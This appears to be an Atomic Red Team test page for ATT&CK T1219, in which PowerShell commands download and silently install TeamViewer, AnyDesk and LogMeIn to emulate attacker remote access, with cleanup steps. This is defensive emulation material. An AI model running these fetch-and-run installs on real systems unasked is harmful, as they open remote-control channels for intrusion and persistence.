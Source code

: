 # T1219 - Remote Access Software
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1219)
<blockquote>An adversary may use legitimate desktop support and remote access software, such as Team Viewer, Go2Assist, LogMein, AmmyyAdmin, etc, to establish an interactive command and control channel to target systems within networks. These services are commonly used as legitimate technical support software, and may be allowed by application control within a target environment. Remote access tools like VNC, Ammyy, and Teamviewer are used frequently when compared with other legitimate software commonly used by adversaries. (Citation: Symantec Living off the Land)

Remote access tools may be established and used post-compromise as alternate communications channel for redundant access or as a way to establish an interactive remote desktop session with the target system. They may also be used as a component of malware to establish a reverse connection or back-connect to a service or adversary controlled system.

Admin tools such as TeamViewer have been used by several groups targeting institutions in countries of interest to the Russian state and criminal campaigns. (Citation: CrowdStrike 2015 Global Threat Report) (Citation: CrySyS Blog TeamSpy)</blockquote>

## Atomic Tests

- [Atomic Test #1 - TeamViewer Files Detected Test on Windows](#atomic-test-1---teamviewer-files-detected-test-on-windows)

- [Atomic Test #2 - AnyDesk Files Detected Test on Windows](#atomic-test-2---anydesk-files-detected-test-on-windows)

- [Atomic Test #3 - LogMeIn Files Detected Test on Windows](#atomic-test-3---logmein-files-detected-test-on-windows)


<br/>

## Atomic Test #1 - TeamViewer Files Detected Test on Windows
An adversary may attempt to trick the user into downloading teamviewer and using this to maintain access to the machine. Download of TeamViewer installer will be at the destination location when sucessfully executed.

**Supported Platforms:** Windows


**auto_generated_guid:** 8ca3b96d-8983-4a7f-b125-fc98cc0a2aa0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\TeamViewer_Setup.exe https://download.teamviewer.com/download/TeamViewer_Setup.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Start-Process $file1 /S;
Start-Process 'C:\Program Files (x86)\TeamViewer\TeamViewer.exe'
```

#### Cleanup Commands:
```powershell
$file = 'C:\Program Files (x86)\TeamViewer\uninstall.exe'
if(Test-Path $file){ Start-Process $file "/S" -ErrorAction Ignore | Out-Null }
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Remove-Item $file1 -ErrorAction Ignore | Out-Null
```





<br/>
<br/>

## Atomic Test #2 - AnyDesk Files Detected Test on Windows
An adversary may attempt to trick the user into downloading AnyDesk and use to establish C2. Download of AnyDesk installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows


**auto_generated_guid:** 6b8b7391-5c0a-4f8c-baee-78d8ce0ce330






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\AnyDesk.exe https://download.anydesk.com/AnyDesk.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
Start-Process $file1 /S;
```

#### Cleanup Commands:
```powershell
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe.exe"
Remove-Item $file1 -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - LogMeIn Files Detected Test on Windows
An adversary may attempt to trick the user into downloading LogMeIn and use to establish C2. Download of LogMeIn installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows


**auto_generated_guid:** d03683ec-aae0-42f9-9b4c-534780e0f8e1






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\LogMeInIgnition.msi https://secure.logmein.com/LogMeInIgnition.msi
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Start-Process $file1 /S;
Start-Process 'C:\Program Files (x86)\LogMeInIgnition\LMIIgnition.exe' "/S"
```

#### Cleanup Commands:
```powershell
get-package *'LogMeIn Client'* -ErrorAction Ignore | uninstall-package 
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Remove-Item $file1 -ErrorAction Ignore
```





<br/>
